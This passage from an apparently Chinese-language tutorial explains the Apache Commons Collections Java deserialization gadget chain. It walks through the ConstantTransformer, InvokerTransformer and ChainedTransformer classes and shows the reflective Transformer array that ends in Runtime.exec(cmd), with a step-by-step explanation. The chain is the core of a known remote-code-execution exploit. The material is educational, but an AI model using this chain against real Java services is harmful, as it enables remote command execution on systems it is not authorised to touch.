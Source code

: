     public Object transform(Object input) {
        return iConstant;
    }
    ```
1. `InvokerTransformer`
    ```java
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

    public Object transform(Object input) {
        // omit
        Class cls = input.getClass();
        Method method = cls.getMethod(iMethodName, iParamTypes);
        return method.invoke(input, iArgs);
        // omit
    }
    ```
1. `ChainedTransformer`
    ```java
    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
    ```

利用这几个对象，可以构造出下面这条链：

```java
Transformer[] trans = new Transformer[] {
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { cmd })};
Transformer chain = new ChainedTransformer(trans);
```

其中，数组的中间两个元素是最让人费解的，我们一句一句来解释 *（前方高能预警，请对照上面几个`Transformer`的逻辑仔细看，接下来的内容网上有些解释是存在出入的）* ：

1. 构造一个`ConstantTransformer`，把`Runtime`的`Class`对象传进去，在`transform()`时，始终会返回这个对象
1. 构造一个`InvokerTransformer`，待调用方法名为`getMethod`，参数为`getRuntime`，在`transform()`时，传入1的结果，此时的`input`应该是`java.lang.Runtime`，但经过`getClass()`后，`cls`为`java.lang.Class`，之后的`getMethod()`只能获取`java.lang.Class`的方法，因此才会定义的待调用方法名为`getMethod`，然后其参数才是`getRuntime`，它得到的是`getMethod`这个方法的`Method`对象，`invoke()`调用这个方法，最终得到的才是`getRuntime`这个方法的`Method`对象
1. 构造一个`InvokerTransformer`，待调用方法名为`invoke`，参数为空，在`transform()`时，传入2的结果，同理，`cls`将会是`java.lang.reflect.Method`，再获取并调用它的`invoke`方法，实际上是调用上面的`getRuntime()`拿到`Runtime`对象
1. 构造一个`InvokerTransformer`，待调用方法名为`exec`，参数为命令字符串，在`transform()`时，传入3的结果，获取`java.lang.Runtime`的`exec`方法并传参调用
1. 最后把它们组装成一个数组全部放进`ChainedTransformer`中，在`transform()`时，会将前一个元素的返回结果作为下一个的参数，刚好满足需求
